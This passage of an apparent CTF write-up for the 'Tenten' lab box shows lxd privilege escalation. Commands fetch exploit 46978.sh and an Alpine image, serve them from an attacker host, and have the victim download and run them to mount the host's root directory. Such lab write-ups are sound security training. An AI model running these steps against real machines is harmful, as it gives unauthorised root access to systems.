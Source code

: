 ; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/tenten_writeup/Tenten_50.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

I am going to use another vector to escalate privileges in this box, I can search with `searchploit` for an exploit for **lxd**, and I find the one from **S4vitar** and **vowkin** that automates the whole exploitation. I just need to download the script, follow the steps indicated there to download an image of **Alpine** and then create a container specially configured to mount the **root** directory of the vulnerable system in the **/mnt** directory of the container, and from there make all the necessary modifications to escalate privileges. I also know from the community that I should delete some commands from the script to avoid problems, transfer both the container and the exploit to the victim machine, and give the script execution permissions but I get an error message for an execution permission.

> **Attacker Machine**:

```bash
searchsploit lxd
searchsploit -m linux/local/46978.sh
mv 46978.sh lxd_exploit.sh

wget https://raw.githubusercontent.com/saghul/lxd-alpine-builder/master/build-alpine
sudo bash build-alpine

python3 -m http.server 80
```

> **Victime Machine**:

```bash
wget 10.10.14.15/alpine-v3.19-x86_64-20240102_1831.tar.gz
wget 10.10.14.15/lxd_exploit.sh
chmod +x lxd_exploit.sh
./lxd_exploit.sh
./lxd_exploit.sh alpine-v3.19-x86_64-20240102_1831.tar.gz
```

<br/>
<img src="{{ site.img_path }}/tenten_writeup/Tenten_51.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/tenten_writeup/Tenten_52.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/tenten_writeup/Tenten_53.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/tenten_writeup/Tenten_54.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/tenten_writeup/Tenten_55.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/tenten_writeup/Tenten_56.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>
